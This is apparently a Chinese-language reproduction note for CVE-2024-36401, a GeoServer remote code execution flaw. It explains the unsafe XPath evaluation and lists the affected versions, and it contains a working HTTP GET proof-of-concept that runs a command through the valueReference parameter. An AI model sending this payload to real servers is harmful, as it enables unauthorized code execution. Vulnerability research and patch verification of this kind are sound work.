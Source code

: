 ```SQL
                        print(f"{RED}Request failed{ENDC}")
            else:
                print(f"{RED}Request failed{ENDC}")
else:
    print(f"{RED}Failed to retrieve XML data{ENDC}")

```




# CVE-2024-36401(远程代码执行漏洞)

## 漏洞原理

GeoServer 是一个开源服务器，允许用户共享和编辑地理空间数据，依赖 GeoTools 库来处理地理空间数据。

GeoServer 调用的 GeoTools 库 API 会以不安全的方式将要素类型的属性名称传递给 commons-jxpath 库，该库在评估 XPath 表达式时可以执行任意代码。此 XPath 评估仅供复杂要素类型（即应用程序架构数据存储）使用，但也被错误地应用于简单要素类型，这使得此漏洞适用于所有GeoServer 实例。

## 影响版本

GeoServer < 2.23.6

2.24.0 <= GeoServer < 2.24.4

2.25.0 <= GeoServer < 2.25.2



## 复现过程

输入 [http://127.0.0.1:8080/geoserver](http://127.0.0.1:8080/geoserver) 进入 GeoServer 的管理员界面。
![image](https://github.com/user-attachments/assets/591c5fbf-89f0-42fc-9e48-172c3858d99f)


网上有很多POC。

### POC 1 GET请求

```SQL
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

